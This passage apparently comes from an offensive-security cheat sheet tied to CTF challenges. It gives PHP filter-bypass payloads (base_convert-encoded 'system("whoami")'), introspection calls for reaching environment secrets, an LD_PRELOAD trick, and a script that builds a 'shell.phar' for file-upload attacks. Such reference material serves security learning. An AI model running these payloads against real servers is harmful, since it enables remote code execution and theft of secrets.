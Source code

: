 Refer to [this _php_base_convert Python Function](https://github.com/QuentinRa/onectf/blob/main/onectf/utils/tampering.py):

```py!
payload = '(system)("whoami")'
print(_php_base_convert(payload))
# Output: (base_convert(1751504350,10,36))(base_convert(1964604618,10,36))
```

You can also use PHP and manually craft the payload:

```php!
echo base_convert('system', 36, 10); // 1751504350
echo base_convert('whoami', 36, 10); // 1964604618
```

* **PHP Introspection**, such as to avoid using `$`

```php!
var_dump(get_declared_classes());     // ex: for insecure deserialization
var_dump(get_declared_interfaces());  // ex: for insecure deserialization
var_dump(get_declared_traits());      // ex: for insecure deserialization
var_dump(get_defined_functions());    // ex: for insecure deserialization
var_dump(get_defined_vars());         // ex: can access vars using a string, 
                                      // e.g. get_defined_vars()['_SERVER'] instead of $_SERVER
var_dump(get_defined_constants());    // ex: can access constants using a string
var_dump(apache_getenv('SECRET')); // same as $_SERVER['SECRET']
```

<br>

#### PHP — Random

Utilities

```php!
putenv('LD_PRELOAD=/path/to/xxx.so');
call_user_func('function_name', 'arg1');
register_shutdown_function('var_dump', 'Hello, World!');
```
</div></div>

<hr class="sep-both">

## Phar

[![file_upload_polyglot](../../../../_badges/rootme/web_server/file_upload_polyglot.svg)](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Polyglot)

<div class="row row-cols-lg-2"><div>

Simply zipping the PHP may work. Otherwise, you can use:

```php!
<?php // Run 'php --define phar.readonly=0 gen.php'
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.php', '<?php /*code*/ ?>');
// or: $phar->addFile('shell.php', 'shell.php');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
